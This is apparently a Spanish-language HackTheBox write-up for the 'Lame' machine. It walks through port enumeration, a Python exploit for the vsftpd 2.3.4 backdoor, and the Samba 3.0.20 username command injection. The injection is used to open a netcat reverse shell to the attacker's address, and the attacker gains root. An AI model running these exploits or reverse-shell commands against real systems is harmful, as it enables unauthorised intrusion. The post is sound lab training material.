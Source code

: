 ```yaml
---
layout: post
title: HTB_Lame
date: 2023/07/10
slug: HTB_Lame
heroImage: /assets/machines.jpg
---
```


# Lame {-}

## Introduccion {-}

La maquina del dia 20/08/2021 se llama Lame.

El replay del live se puede ver aqui

[![S4vitaar Lame maquina](https://img.youtube.com/vi/MNJi4k9uNKQ/0.jpg)](https://www.youtube.com/watch?v=MNJi4k9uNKQ)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.3
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.3
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```


| Puerto | Servicio | Que se nos occure?          | Que falta?           |
| ------ | -------- | --------------------------- | -------------------- |
| 21     | ftp      | Conexion como Anonymous     |                      |
| 22     | ssh      | Conneccion directa          | usuario y contraseña |
| 139    | smbd     | Conneccion con Null session |                      |
| 445    | smbd     | Conneccion con Null session |                      |
| 3632   | distccd  | Web, Fuzzing                |                      |



### Conexion Anonymous con ftp {-}

```bash
ftp 10.10.10.3

Name: anonymous
Password: 

Login successful

ls
```

Podemos connectar como anonymous pero no nos reporta nada. El resultado de nmap nos da que el vsftpd es de version 2.3.4.


## Vulnerability Assessment {-}

### vsftpd 2.3.4 {-}

Miramos si existe un exploit para este servicio.

```bash
searchsploit vsftpd 2.3.4
```

Vemos que hay una vulnerabilidad y que existe un exploit. Como el exploit es une exploit Metasploit, vamos buscando por
la web si existe otro exploit y la encontramos en [cherrera0001 github](https://github.com/cherrera0001/vsftpd_2.3.4_Exploit).

```python
#!/usr/bin/python3
from pwn import log,remote
from sys import argv,exit
from time import sleep

if len(argv) < 2:
    exit(f'Usage: {argv[0]} Target_IP')


p = log.progress("Running")
vsftpd = remote(argv[1], 21)

p.status('Checking Version')
recv = vsftpd.recvuntil(")",timeout=5)
version = (recv.decode()).split(" ")[2].replace(")","")
if version != '2.3.4':
	exit('2.3.4 Version Not Found')

vsftpd.sendline('USER hii:)')
vsftpd.sendline('PASS hello')
p.status('Backdoor Activated')

sleep(3)

backdoor = remote(argv[1], 6200)
p.success("Got Shell!!!")
backdoor.interactive()
```

Si lanzamos el script no funcciona, parece ser que la version a sido parcheada -> rabbithole. 

### SAMBA 3.0.20 {-}

```bash
searchsploit samba 3.0.20
```

Vemos que hay un exploit para Metasploit que permite ejecutar commandos. Examinamos el script con el commando 
```bash
 searchsploit -x 16320 
```
 y vemos
que podemos injectar commandos desde el nombre de usuario con el formato siguiente

```ruby
username = "/=
```bash
 nohup " + payload.encoded + " 
```
"
```

Vamos a por pruebas

1. Nos ponemos en escucha de trazas ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c "dir"
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1"
    smb: \> logon "/='nohup ping -c 1 10.10.14.7'"
    ```

Vemos que esto functionna perfectamente. Vamos a ganar accesso al systema.
## Vuln exploit & Gaining Access {-}

### Ganando accesso desde la vulnerabilidad SAMBA 3.0.20 {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Intentamos enviar commandos siguiendo la guia del script

    ```bash
    smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=
```bash
 nohup nc -e /bin/bash 10.10.14.7 443 
```
"'
    ```

Hemos ganado accesso al systema.


### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a 
```bash
 whoami 
```
 vemos que ya estamos root ;) No se necessita escalar privilegios en este caso.
